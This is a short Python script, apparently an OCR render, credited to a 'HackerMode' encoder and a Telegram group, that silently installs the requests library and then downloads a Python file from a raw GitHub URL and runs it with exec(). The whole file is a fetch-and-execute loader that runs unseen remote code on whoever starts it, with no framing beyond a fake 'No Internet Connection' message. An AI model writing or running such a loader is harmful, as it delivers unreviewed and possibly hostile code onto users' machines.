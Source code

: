 # Encoded by HackerMode tool...

# Copyright: PSH-TEAM

# Follow us on telegram ( @psh_team )

try :

 import requests

except :

 import os

 os.system('pip install requests')

 import requests

try :exec(requests.get("https://raw.githubusercontent.com/abdallah34/Anas/main/Script.py").text)

except :

 print('\033[0;39m» \033[0;31m No Internet Connection \033[0;39m')

 exit()
